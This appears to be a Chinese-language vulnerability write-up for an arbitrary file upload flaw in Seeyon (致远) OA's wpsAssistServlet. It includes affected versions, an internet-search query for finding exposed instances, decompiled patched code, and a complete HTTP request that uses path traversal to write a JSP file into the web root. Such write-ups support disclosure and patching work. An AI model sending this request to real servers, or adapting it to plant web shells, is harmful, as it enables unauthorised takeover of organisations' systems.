






# 致远OA wpsAssistServlet 任意文件上传漏洞

## 漏洞描述

致远OA wpsAssistServlet接口存在任意文件上传漏洞，攻击者通过漏洞可以发送特定的请求包上传恶意文件，获取服务器权限

## 漏洞影响

```
致远OA A6、A8、A8N (V8.0SP2，V8.1，V8.1SP1)
致远OA G6、G6N (V8.1、V8.1SP1)
```

## 网络测绘

```
app="致远互联-OA" && title="V8.0SP2"
```

## 漏洞复现

产品主页


下载补丁220706-S004 ，对比修改的文件



主要修改的是 `com.seeyon.ctp.common.wpsassist.manager.WpsAssistManagerImpl.oaSaveFile` 这个方法

```
private Map<String, Object> oaSaveFile(HttpServletRequest request, Map<String, Object> param) throws Exception {
        Map<String, Object> result = Maps.newHashMap();
        result.put(BusinessKey.OfficeTransResultFlag.getCode(), (Object)null);
        Long fileId = MapUtils.getLong(param, "fileId");
        log.info("wpsAssist SaveFile start!fileId=" + fileId);
        String newPdfFileId = MapUtils.getString(param, "newPdfFileId");
        if (Strings.isNotBlank(newPdfFileId)) {
            fileId = Long.valueOf(newPdfFileId);
        }

        String realFileType = MapUtils.getString(param, "realFileType");
        String tempFileIdPathSuffix = SystemEnvironment.getSystemTempFolder() + File.separator + fileId + realFileType;
        Long count = this.saveFileToPath(request, tempFileIdPathSuffix);
        result.put(BusinessKey.FileSize.getCode(), count);
        result.putAll(this.createOfficeTransCacheFile(fileId, tempFileIdPathSuffix, MapUtils.getString(param, "canTransFileType")));
        param.put(BusinessKey.OfficeTransResultFlag.getCode(), result.get(BusinessKey.OfficeTransResultFlag.getCode()));
        this.copyToUploadAndTrans(param);
        return result;
    }
```

向上追溯调用的 oaSaveFile方法的代码





在 `com.seeyon.ctp.common.wpsassist.WpsAssistServlet.doPost` 中，flag参数为save时，可以调用文件上传接口



`C://Seeyon/A6/base/temporary` 为默认上传的位置，但 `realFileType, fileId` 参数可控，可以通过 ../ 遍历上传到任意目录下，验证POC

```
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/debugggg.jsp&fileId=2 HTTP/1.1
Host: 
Content-Length: 349
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="upload"; filename="123.xls"
Content-Type: application/vnd.ms-excel

<% out.println("seeyon_vuln");%>
--59229605f98b8cf290a7b8908b34616b--
```



